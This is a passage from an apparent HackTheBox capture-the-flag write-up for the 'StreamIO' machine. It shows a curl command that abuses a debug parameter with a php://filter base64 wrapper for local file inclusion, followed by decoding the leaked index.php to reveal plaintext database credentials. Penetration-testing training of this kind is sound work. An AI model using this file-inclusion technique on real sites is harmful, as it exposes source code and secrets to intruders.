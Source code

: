 After a little playing around we find we can use a php filter to achieve local file inclusion (LFI). [This](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/) article briefly explains it. Also we've covered this before on the [Timing](https://pencer.io/ctf/ctf-htb-timing/) and [EarlyAccess](https://pencer.io/ctf/ctf-htb-earlyaccess/) boxes.

Let's grab the index.php file so we can see it's source code:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# curl -k --cookie "PHPSESSID=3k47ea2n095607g9vukkpvhu72" "https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php"
```

From the file we get back this part is interesting:

```html
<!DOCTYPE html>
<html>
<head>
        <meta charset="utf-8">
        <title>Admin panel</title>
        <link rel = "icon" href="/images/icon.png" type = "image/x-icon">
<SNIP>
                <div id="inc">
                        this option is for developers onlyPD9waHAKZGVmaW5lKCdpbmNsdWRlZCcsdHJ1ZSk7CnNlc3Npb25fc3RhcnQoKT
                        sKaWYoIWlzc2V0KCRfU0VTU0lPTlsnYWRtaW4nXSkpCnsKCWhlYWRlcignSFRUUC8xLjEgNDAzIEZvcmJpZGRlbicpOwoJZG
                        llKCI8aDEJlcXVpcmUgJ3N0YWZmX2luYy5waHAnOwoJCQkJZWxzZSBpZihpc3NldCgkX0dFVFsnbW92aWUnXSkpCgkJCQkJc
                        <SNIP>
                        ZSAnbW92aWVfaW5jLnBocCc7CgkJCQllbHNlIAoJCQk/PgoJCTwvZGl2PgoJPC9jZW50ZXI+CjwvYm9keT4KPC9odG1sPg==         
                </div>
        </center>
</body>
</html>
```

There's a long base64 string at the end. Decode that and we have credentials for the database:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# echo "PD9waHAKZGVmaW5lKCdpbmNsdWRlZC <SNIP> KPC9odG1sPg==" > index.php.b64

┌──(root㉿kali)-[~/htb/streamio]
└─# cat index.php.b64 | base64 -d
<?php
define('included',true);
session_start();
if(!isset($_SESSION['admin']))
{
        header('HTTP/1.1 403 Forbidden');
        die("<h1>FORBIDDEN</h1>");
}
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);
```
